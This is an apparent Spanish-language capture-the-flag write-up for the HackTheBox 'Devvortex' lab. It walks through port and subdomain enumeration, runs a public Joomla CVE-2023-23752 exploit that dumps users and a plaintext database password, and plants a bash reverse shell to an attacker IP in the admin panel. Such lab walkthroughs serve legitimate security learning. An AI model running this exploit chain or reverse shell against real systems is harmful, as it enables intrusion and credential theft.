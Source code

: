 # Devvortex - Easy

IP=10.10.11.242

```bash	
echo "$IP devvortex.htb" | sudo tee -a /etc/hosts
```

## Escaneo de puertos

```bash
nmap -sV $IP
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-15 23:25 CET
Nmap scan report for 10.10.11.242
Host is up (0.043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds
```

> Dos puertos abiertos, ssh y http.

## Enumeración

### Enumeracion de directorios

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://devvortex.htb
```

> No se encuentra nada interesante.

### Enumeracion de subdominios

```bash
gobuster vhost -w /usr/share/spiderfoot/dicts/subdomains-10000.txt -u http://devvortex.htb
```

> Hemos encontrado un subdominio: `dev.devvortex.htb`

```bash
echo "$IP dev.devvortex.htb" | sudo tee -a /etc/hosts
```

### Enumeracion de directorios en el subdominio

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://dev.devvortex.htb

```

> Se ha encontrado un panel de login en /administrator corriendo Joomla.

### Buscar version en Joomla

```bash
joomscan -u http://dev.devvortex.htb
```

> La version es 4.2.6

### Buscar exploits en searchsploit

> He encontrado un exploit que permite hacer un bypass de la autenticacion. [https://github.com/Acceis/exploit-CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752)

### Ejecutar el exploit

```bash
gem install httpx docopt paint
```

```bash
# Ejecutamos el exploit
ruby exploit.rb http://dev.devvortex.htb
```

```text
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

### Pones netcat a la escucha

```bash
nc -lvnp 4444
```

### Añadimos la reverse shell en el panel de administracion

system('bash -c "bash -i >& /dev/tcp/10.10.14.216/4444 0>&1"');

### Una vez dentro, nos conectamos a la base de datos
    
```bash
mysql -u lewis -p
```
